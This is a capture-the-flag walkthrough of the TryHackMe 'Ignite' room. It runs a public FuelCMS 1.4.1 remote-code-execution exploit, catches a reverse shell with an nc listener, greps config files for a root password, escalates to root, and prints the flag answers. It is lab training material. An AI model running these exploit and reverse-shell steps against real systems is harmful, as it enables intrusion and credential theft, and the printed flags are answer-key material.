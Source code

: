 # TryHackMe - Ignite

## 🛠 Reco

Set an environment variable for the IP to simplify commands:

```bash
export IP=10.10.132.139
```

### 🔍 Nmap Scan

```bash
nmap -sC -sV -oN nmap/initial $IP
```

**Results:**

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Welcome to FUEL CMS
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)

```

### 🔍 Gobuster

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.132.139 -x .php,.txt,.html,.js,.md | tee go_scan

```

**Results:**
```
/index.html           (Status: 301) [Size: 0] [--> ./]
/img                  (Status: 301) [Size: 0] [--> img/]
/index                (Status: 200) [Size: 16597]
/.html                (Status: 403) [Size: 293]
/index.php            (Status: 200) [Size: 16597]
/home                 (Status: 200) [Size: 16597]
/0                    (Status: 200) [Size: 16597]
/assets               (Status: 301) [Size: 315] [--> http://10.10.132.139/assets/]
/README.md            (Status: 200) [Size: 1427]
/robots.txt           (Status: 200) [Size: 30]
/contributing.md      (Status: 200) [Size: 6502]
/offline              (Status: 200) [Size: 70]
/fuel                 (Status: 301) [Size: 313] [--> http://10.10.132.139/fuel/]
```

Just the main page really.

## 📌 Task 1: Root it!

### Initial foothold


On the main page we have the login details. That's nice!


```
To access the FUEL admin, go to:
http://10.10.132.139/fuel
User name: admin
Password: admin (you can and should change this password and admin user information after logging in)
```

I spent more time than I should, hunting around fuel CMS trying to find a way to upload and change a php page. All my attempts failed!

As a last ditch attempt I thought I would google "fuel cms 1.4 explot"

Wow, there is a known vulnerability. Note to self do this first next time! There is a great github page made by p0dalirius here - https://github.com/p0dalirius/CVE-2018-16763-FuelCMS-1.4.1-RCE

Let's give it a go! I grabbed the console.py and the webshell.php files.

```bash
python3 console.py -t http://10.10.181.164 
```

That worked. I am in as www-data. Let's cat the user flag

```bash
cat user.txt
6470e394cbf6dab6a91682cc8585059b
```

**Q. User.txt
A. 6470e394cbf6dab6a91682cc8585059b

## Excalate to root

The problem I have is this webshell.php sucks. It would be much better if we had a reverse shell. So instead of struggling along with this current exploit I decided to rewrite the vulnerability to use pentestmonkey revershell.php. My version can be found in my github directory. 

Now let's give it a go. First, setup a nc listener and then run the exploit - easy!

```bash
rlwrap nc -nlvp 9999
python3 CVE-2018-16763-FuelCMS-1.4.1-RCE.py -t http://10.10.181.164 
```

**Results:**
```
[+] Reverse shell uploaded: http://10.10.181.164/89eb47d009074f32b74fc911e84a0bc0.php
[*] Triggering reverse shell: http://10.10.181.164/89eb47d009074f32b74fc911e84a0bc0.php

```
Now in a reverse shell, let’s stabilize it:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
Ctrl Z
stty raw -echo; fg
export TERM=xterm
```

Much better. Time to get to work! Let's run through my plan. We'll stop if we hit pay-dirt

```
Things to try

1. sudo -l
2. suid files
3. cron jobs
4. random password files
5. linpeas.sh
```

### 1. sudo -l

**Results:**
```
Nope it asked for a password. 
```


### 2. suid files

Next I looked for suid files.

```bash
find / -type f -perm -u=s 2>/dev/null
```

**Results:**
```
/usr/sbin/mount.cifs
/usr/sbin/mount.nfs
/usr/sbin/pppd
/usr/bin/kismet_cap_nrf_mousejack
/usr/bin/kismet_cap_ti_cc_2540
/usr/bin/kismet_cap_linux_bluetooth
/usr/bin/rsh-redone-rsh
/usr/bin/sudo
/usr/bin/su
/usr/bin/kismet_cap_nxp_kw41z
/usr/bin/kismet_cap_nrf_51822
/usr/bin/chfn
/usr/bin/kismet_cap_nrf_52840
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/rsh-redone-rlogin
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/fusermount3
/usr/bin/vmware-user-suid-wrapper
/usr/bin/kismet_cap_linux_wifi
/usr/bin/kismet_cap_rz_killerbee
/usr/bin/kismet_cap_hak5_wifi_coconut
/usr/bin/umount
/usr/bin/mount
/usr/bin/ntfs-3g
/usr/bin/kismet_cap_ti_cc_2531
/usr/bin/kismet_cap_ubertooth_one
/usr/bin/chsh
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/xorg/Xorg.wrap
/usr/lib/chromium/chrome-sandbox
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

nope, nothing interesting here

### 3. cronjobs

Then I uploaded pspy32 using a python web server on my attacker pc. 

**Results:**
```
nothing! Quiet as a mouse.
```


### 4. random passwords in files

OK. last thing to check before we pull out linpeas. Let's have a quick hunt through the fuel configs. A simple way to do this is search for "root" and print 2 lines if found. Sometimes we get lucky!

```bash
cd /var/www/html/
grep -ir -A 2 "root" . 2> /dev/null
```

**Results:**
```
./fuel/application/config/database.php: 'username' => 'root',
./fuel/application/config/database.php- 'password' => 'mememe',
./fuel/application/config/database.php- 'database' => 'fuel_schema',
```
wow. That can't be the password can it? let's try

```bash
su root
#
cat /root/root.txt
b9bbcb33e11b80be759c4e844862482d
```

**Q. Escalate your privileges and get the flag in root.txt
A. b9bbcb33e11b80be759c4e844862482d


